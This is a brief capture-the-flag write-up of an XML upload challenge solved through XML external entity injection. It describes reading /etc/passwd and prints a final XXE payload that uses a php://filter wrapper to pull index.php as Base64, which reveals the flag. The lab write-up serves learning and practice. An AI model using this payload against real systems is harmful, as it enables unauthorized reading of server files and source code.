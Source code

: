 **I think this challenge not hard it is easy or medium**


**we have xml upload function which disblay the content of the xml file**
![Screenshot_20231003_103841](https://github.com/kiro6/writeups-ctfs/assets/57776872/81da4bce-6395-45e0-ac8e-5f81fe1894d9)

**tried to include /etc/passwd and it works**  
![Screenshot_20231003_103822](https://github.com/kiro6/writeups-ctfs/assets/57776872/fcdc3b3d-1702-410b-8828-a3528f052a14)

**using php filter wrapper i was able to read source code in Base64 encode**
![Screenshot_20231003_103756](https://github.com/kiro6/writeups-ctfs/assets/57776872/72e77e1b-8555-4a21-931b-0ab0340de04d)


**decode Base64 to find the flag**

```php
<?php
$flag = 'xeeflag345';
```

**final payload**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ 
 <!ENTITY content SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
<root>&content;</root>
```
